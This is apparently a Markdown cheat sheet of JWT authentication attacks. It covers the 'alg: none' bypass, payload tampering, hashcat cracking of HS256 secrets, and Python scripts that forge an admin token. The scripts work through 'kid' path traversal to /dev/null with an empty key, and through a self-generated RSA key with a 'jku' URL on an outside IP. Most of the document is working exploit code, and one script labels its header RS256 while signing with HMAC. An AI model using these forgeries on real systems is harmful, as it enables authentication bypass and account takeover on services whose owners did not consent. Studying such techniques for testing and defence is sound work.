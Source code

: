 
# JWT Checks

## None

Decode the "Header" and change the "alg" to be a variation of "none":

- None
- none
- NoNe
- NONE

Remove the signature but keep the second period.  
Tamper the payload to what you need.  

## Not checking Sig?

Decode and change the "Payload", the server may not be checking it anyway.  

## Crack with Hashcat (HMAC - HS256)

Copy the original JWT to a text file and run Hashcat against it:  

```bash
hashcat -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
```

## Specific Techniques

The following code exploits the ability to set the KID to a predictable value on a Linux machine
With `pyjwt` library  

```python3
"""
'kid' header stands for 'Key ID'.
The vulnerability comes from being able to set the kid  to a predictable value.
On a linux machine you can set the kid to '/dev/null' which returns nothing.
Then set the secret to a blank value and sign the jwt with it.
"""

#!/usr/bin/env python3
import jwt

secret = ''
payload = {
    "user":"admin"
}
alg = "HS256"
header = {
    "kid":"../../../../../../dev/null"
}

token = jwt.encode(payload, secret, algorithm= alg, headers=header)
print(token)
```

With built-in libraries:  

```python3
import hmac
import base64
import hashlib
import json

header = {
        "alg":"RS256",
        "kid":"../../../../../../../../dev/null"
}

key = ""

payload = {
        "user": "admin"
}

str = base64.urlsafe_b64encode(bytes(json.dumps(header), encoding='utf8')).decode('utf8').rstrip("=") + "." + base64.urlsafe_b64encode(bytes(json.dumps(payload), encoding='utf8')).decode('utf8').rstrip("=")

sig = base64.urlsafe_b64encode(hmac.new(bytes(key, encoding='utf8'), str.encode('utf8'),hashlib.sha256).digest()).decode('utf8').rstrip("=")

print(str + "." + sig)
```

Create keys with OpenSSL and setting 'e' and 'n'

```python3
import jwt
import OpenSSL
import json
import base64
import hashlib
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import padding

key = OpenSSL.crypto.PKey()
key.generate_key(type=OpenSSL.crypto.TYPE_RSA,bits=2048)
priv = key.to_cryptography_key()
pub = priv.public_key()

header = {
  "alg":"RS256",
  "jwk":  {
          "kty":"RSA",
          # "kid":"bilbo.baggins@hobbiton.example",
          "use":"sig"
          },
  "typ": "JWT",
  "jku": "http://157.245.154.213:8000/a/jwk"
}

e = pub.public_numbers().e
n = pub.public_numbers().n

header['jwk']['e'] = base64.urlsafe_b64encode((e).to_bytes((e).bit_length()//8+1,byteorder='big')).decode('utf8').rstrip('=')
header['jwk']['n'] = base64.urlsafe_b64encode((n).to_bytes((n).bit_length()//8+1,byteorder='big')).decode('utf8').rstrip('=')

payload = {
  "user": "admin"
}

token = jwt.encode(payload, priv, algorithm="RS256", headers=header)

print(f"Token: {token}\ne: {header['jwk']['e']}\nn: {header['jwk']['n']}")

```
